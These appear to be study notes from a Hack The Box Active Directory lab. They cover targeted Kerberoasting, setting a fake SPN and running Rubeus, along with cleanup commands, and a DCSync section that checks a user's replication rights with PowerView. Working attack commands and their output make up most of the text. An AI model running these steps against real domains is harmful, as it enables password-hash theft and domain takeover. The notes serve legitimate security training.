 - `PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` → creating a fake SPN
- `PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap`

Kerberoasting with Rubeus

| Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose | PowerView tool used to remove the fake Service Principal Name created during the attack from a Windows-based host. |
| --- | --- |
| Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose | PowerView tool used to remove a specific user (damundsent) from a specific security group (Help Desk Level 1) from a Windows-based host. |
| ConvertFrom-SddlString | PowerShell cmd-let used to covert an SDDL string into a readable format. Performed from a Windows-based host. |

# **DCSync**

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

First lets check if the user have Replication Rights

- `Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl` → View adunn’s group Membership. Copy the objectsid of the user.
- `PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"` → set variable `sid`
- `PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl` → finally check the users Replication Rights

```powershell
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

```

# **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**
